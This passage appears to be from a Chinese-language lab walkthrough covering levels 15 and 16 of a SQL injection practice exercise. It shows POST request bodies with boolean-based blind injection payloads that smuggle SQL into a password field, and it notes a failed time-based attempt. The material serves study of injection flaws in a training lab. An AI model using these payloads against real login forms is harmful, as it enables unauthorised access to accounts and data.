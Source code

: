 ![7](/img/2018-08-03/7.png)
##### 第十五关
post型单引号盲注，测试布尔型
```
uname=123&passwd=123' or '1'='1 &submit=Submit
```
![8](/img/2018-08-03/8.png)
测试时间型失败，返回时间异常，经常是几分钟才有有回复，测试失败
##### 第十六关
post型双引号盲注和第十五关一样
```
uname=123&passwd=123") or "1"="1" -- + &submit=Submit
```